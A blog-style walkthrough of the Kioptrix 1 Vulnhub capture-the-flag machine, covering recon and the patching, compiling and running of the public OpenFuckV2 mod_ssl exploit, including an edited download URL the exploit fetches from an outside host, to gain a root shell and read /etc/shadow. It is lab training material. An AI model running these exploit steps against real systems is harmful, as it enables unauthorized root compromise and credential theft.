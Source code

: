 ```yaml
---
layout: post
title: Vulnhub - Kioptrix 1 Walkthrough
tags: [Hacking, Vulnhub, CTF]
---
```

Kioptrix 1 is a Boot to Root CTF available [here](https://www.vulnhub.com/entry/kioptrix-level-1-1,22/) on Vulnhub. It's difficulty is rated as Beginner. This write up is the first of a series I will be doing as I complete [Abatchy's list of OSCP like Vulnhub VM's](http://www.abatchy.com/2017/02/oscp-like-vulnhub-vms). 

The VM and my Kali instance are set up with NAT networking, so to discover the IP address of the VM I run netdiscover

![](/img/kioptrix1-1/netdiscover.png)

Once I obtain the IP, I then run a nmap scan and find the following ports: 22, 80, 111, 139, 443 and 1024. 
![](/img/kioptrix1-1/nmap.png)

Visiting the websites on port 80 and 443 reveal just the default apache page. So I decide to run nikto to see if anything can be found.
![](/img/kioptrix1-1/nikto.png)

Nikto reveals something interesting - mod_ssl 2.8.4 - mod_ssl 2.8.7 and lower are vulnerable to a remote buffer overflow which may allow a reverse shell (OSVDB-756). I give this a google and come across the [OpenFuckV2 exploit](http://www.exploit-db.com/exploits/764/) on ExploitDB. I download the exploit and attempt to compile, however I recieve a number of errors. I decide to again google to see if I can find any clues on compiling this exploit and I come across this [Blog Post](http://paulsec.github.io/blog/2014/04/14/updating-openfuck-exploit/) and this [Reddit Post](https://www.reddit.com/r/HowToHack/comments/5q2rkp/help_compiling_a_c_exploit/). Combining the information from these two sources the process to get the exploit to work is as follows:

#### Add the following headers
{% highlight c %}
# include <openssl/rc4.h>
# include <openssl/md5.h>
{% endhighlight %}


#### Update the wget URL (found via searching for wget) to:
{% highlight c %}
http://dl.packetstormsecurity.net/0304-exploits/ptrace-kmod.c
{% endhighlight %}


#### Update variable on line 961 from 
{% highlight c %}
unsigned char *p, *end;
{% endhighlight %}
to this:
{% highlight c %}
const unsigned char *p, *end;
{% endhighlight %}


#### Finally, install the libssl-dev library
{% highlight c %}
apt-get install libssl1.0-dev
{% endhighlight %}

Now I can compile the exploit using:
{% highlight bash %}
gcc -o OpenFuck 764.c -lcrypto
{% endhighlight %}

Running the exploit with no arguments presents the options for the exploit. It requires me to enter the code for the correct operating system and apache version number. From our Nikto scan we know that apache version 1.3.20 is the apache version and that the system is running Red Hat Linux. Looking at the options for the exploit we have two options. The following allowed the exploit to work.

{% highlight bash %}
./OpenFuck 0x6b 192.168.5.130 443 -c 40
{% endhighlight %}

The exploit runs successfully and I can see that I have root access via basic shell. 
![](/img/kioptrix1-1/access.png)

I tried to upgrade my shell by using:
{% highlight bash %}
echo os.system('/bin/bash')
{% endhighlight %}

However, this upgrades my shell as the apache user, so I run the exploit again and kept my root shell. As root I can view the /etc/shadow file and see there are other users, however there is nothing of interest in any of the home directories. Some further snooping, I finally find a email in /var/spool/mail/ and find the 'flag'.

![](/img/kioptrix1-1/flag.png)
